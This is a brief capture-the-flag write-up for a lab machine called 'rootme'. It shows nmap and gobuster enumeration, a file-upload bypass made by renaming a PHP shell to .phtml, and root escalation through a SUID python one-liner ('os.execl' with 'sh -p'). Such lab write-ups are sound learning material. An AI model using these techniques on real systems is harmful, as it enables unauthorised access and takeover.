 ```yaml
---
layout: post
title: rootme
feature-img: "assets/img/portfolio/rootme.png"
img: "assets/img/portfolio/rootme.png"
date: 30 aug 2021
tags: [bin, php, rce]
---
```






rootme
ip:10.10.212.108

 nmap -sC -sV 10.10.212.108 -o 10.10.212.108_nmap.txt -v 


 PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 4a:b9:16:08:84:c2:54:48:ba:5c:fd:3f:22:5f:22:14 (RSA)
|   256 a9:a6:86:e8:ec:96:c3:f0:03:cd:16:d5:49:73:d0:82 (ECDSA)
|_  256 22:f6:b5:a6:54:d9:78:7c:26:03:5a:95:f3:f9:df:cd (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
| http-cookie-flags: 
|   /: 
|     PHPSESSID: 
|_      httponly flag not set
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: HackIT - Home
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel



# enumration 

 gobuster -u http://10.10.212.108 -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -o 10.10.212.108_gobuster.txt

 ```
 $ cat 10.10.212.108_gobuster.txt         130 ⨯
/uploads (Status: 301)
/css (Status: 301)
/js (Status: 301)
/panel (Status: 301)
```

i got php restriction.
(php bypass)[https://null-byte.wonderhowto.com/how-to/bypass-file-upload-restrictions-web-apps-get-shell-0323454/]

i changed the file name:

└─$ mv shell.php shell.phtml

and uploaded the file sucssefuly. 


# rce 

after gettind shell i found this .bash_history

drwxr-xr-x  3 www-data www-data 4096 Aug  4  2020 .
drwxr-xr-x 14 root     root     4096 Aug  4  2020 ..
-rw-------  1 www-data www-data  129 Aug  4  2020 .bash_history
drwxr-xr-x  6 www-data www-data 4096 Aug  4  2020 html
-rw-r--r--  1 www-data www-data   21 Aug  4  2020 user.txt

```
www-data@rootme:/var/www$ cat .bash_history
cat .bash_history
id
whoami
ls
ls
cd /var
ls
cd www
ls
cat user.txt
find / -perm /4000
python -c 'import os; os.execl("/bin/sh", "sh", "-p")'
exit

```


# privilige escelation 


python -c 'import os; os.execl("/bin/sh", "sh", "-p")'

and we are root:_ 

